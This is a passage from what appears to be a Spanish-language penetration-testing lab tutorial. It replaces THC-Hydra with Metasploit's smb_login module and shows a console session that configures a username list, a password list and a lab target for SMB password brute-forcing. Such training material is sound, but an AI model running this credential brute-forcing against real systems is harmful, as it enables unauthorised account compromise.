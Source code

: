 Esto se debe a que lo más probable es que tengamos una versión obsoleta de THC-Hydra que no pueda manejar las respuestas de SMBV3. Para resolver este problema, podemos actualizar y recompilar manualmente`hydra`o usar otra herramienta muy poderosa, la[Marco de metasploit](https://www.metasploit.com/).

### **Marco de metasploit**

Servicios de red

```
xnoxos@htb[/htb]$ msfconsole -qmsf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list

msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list

msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

```